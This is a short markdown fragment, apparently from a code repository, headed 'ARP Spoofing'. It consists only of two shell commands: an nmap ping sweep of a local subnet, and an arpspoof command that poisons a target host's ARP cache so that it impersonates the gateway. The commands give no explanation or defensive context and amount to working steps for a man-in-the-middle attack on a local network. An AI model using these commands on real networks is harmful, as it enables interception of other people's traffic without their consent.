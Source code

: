 ## ARP Spoofing

´´´sh
sudo nmap -sn 192.168.1.1/24
´´´

´´´sh
sudo arpspoof -i eth0 -t 192.168.1.132 192.168.1.1
´´´
